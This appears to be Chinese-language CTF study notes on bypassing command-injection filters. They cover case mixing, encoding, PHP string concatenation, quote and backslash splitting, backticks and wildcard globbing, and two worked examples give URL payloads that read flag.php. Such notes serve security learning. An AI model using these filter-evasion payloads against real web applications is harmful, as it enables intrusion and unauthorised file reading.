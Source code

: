 # 大小写绕过

某些过滤规则对大小写不敏感

可以通过大小写混合来绕过过滤

如：

system

可以尝试SysTEm

SYSTEM等绕过





# 编码绕过

编码输入，使其在执行时解码为原始内容

URL编码

- 过滤exec

- %65xec（e 的 ASCII 是 65）

Unicode编码

- 过滤system

- \u0073ystem（s 的 Unicode 是 \u0073）

HEX编码

- 过滤cat

- \x63\x61\x74





# 使用字符串分隔和拼接

将关键字分解为多个部分拼接，避免被完整过滤

PHP：

过滤system

绕过：

sy"."stem

或

sy${"stem"}





# 使用*代替字符串

如过滤flag

可以使用fl*

 

 



# 使用''分隔

如过滤flag

fl''ag







# 利用反引号执行命令

如

```
echo `cat fl*`
```

将命令执行的结果返回作为输出

cat fl*的输出结果将作为参数传递给echo





# 利用\

\绕过

如过滤cat

可以使用

```
c\at
```





# ?匹配字符

?匹配字符

如过滤flag

要读取flag.php

可以使用

```
????.php
```

 

 



# 例题

## 1

![image-20250402200144757](./assets/image-20250402200144757.png)

![image-20250402200147941](./assets/image-20250402200147941.png)

构造payload：

```
?c=/bin/ca?${IFS}????.???
```



/bin/ca?匹配/bin/cat

????.???匹配flag.php



## 2

![image-20250402200215438](./assets/image-20250402200215438.png)

过滤了字母
尝试使用/bin/base64
构造payload：

```
?c=/???/????64 ????.???
```

![image-20250402200224273](./assets/image-20250402200224273.png)
